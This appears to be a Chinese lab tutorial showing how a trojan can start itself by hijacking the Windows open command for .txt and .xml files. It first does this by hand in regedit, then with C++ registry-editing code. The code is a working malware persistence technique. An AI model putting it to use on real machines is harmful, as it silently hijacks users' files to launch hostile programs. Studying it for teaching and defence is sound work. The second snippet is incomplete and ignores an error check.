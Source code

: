 通过"Win+R"快捷键打开运行窗口，输入"regedit"打开注册表编辑器，定位到上述注册表项，然后将值修改为第（1）步骤中所生成的可执行文件路径。

打开任意.txt 扩展名的文本文件，观察执行结果。然后把代码中注释放开， 生成新的可执行文件，再次打开文本文件，观察执行结果。

先是会弹窗，确定后能够正常显示内容。

![image-20220520162730706](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623223934759-1398093827.png)

![image-20220520162934152](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623223935042-668344739.png)

3.  编程完善

第（2）步为手动修改注册表，实际应用的木马是通过系统提供的 API 函数修改注册表项。因此，在第（1）步的代码中添加修改注册表、实现篡改 txt 文本文件打开方式的代码，如下图所示。

```cpp
int ModifyRegKey()
{
	HKEY hKey = NULL;
	if (RegOpenKeyEx(HKEY_CLASSES_ROOT, TEXT("txtfile\\shell\\open\\command"), 0, KEY_WRITE, &hKey) != ERROR_SUCCESS)
		return 1;

	int nRet = 0;
	TCHAR strPath[260] = { 0 };
	GetModuleFileName(NULL, strPath, 260);
	wsprintf(strPath, TEXT("%s %%1"), strPath);
	if (RegSetKeyValue(hKey, NULL, NULL, REG_EXPAND_SZ, strPath, lstrlen(strPath)) != ERROR_SUCCESS)
		nRet = 1;
	else
		nRet = 0;
	RegCloseKey(hKey);
	return nRet;
}

```

#### 其它类型文件

##### xml

> 在手动修改注册表的基础上，修改为篡改其他类型文件的打开方式，如 word 文档等，实现木马自启动。

我们在注册表中查看，我们发现xml格式文档不错，看起来很勇。

![image-20220520164135157](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623223935282-27628669.png)

```cpp
#include<windows.h>

int ModifyRegKey()
{
	HKEY hKey = NULL;
	RegOpenKeyEx(HKEY_CLASSES_ROOT, TEXT("xmlfile\\shell\\Open\\command"), 0, KEY_WRITE, &hKey) != ERROR_SUCCESS;
	int nRet = 0;
	TCHAR strPath[260] = { 0 };
	GetModuleFileName(NULL, strPath, 260);
	wsprintf(strPath, TEXT("%s %%1"), strPath);
	if (RegSetKeyValue(hKey, NULL, NULL, REG_EXPAND_SZ, strPath, lstrlen(strPath)) != ERROR_SUCCESS){
		nRet = 1;
		MessageBox(NULL, strPath, TEXT("notice"), MB_OK);
	}
	else
		nRet = 0;
	RegCloseKey(hKey);
```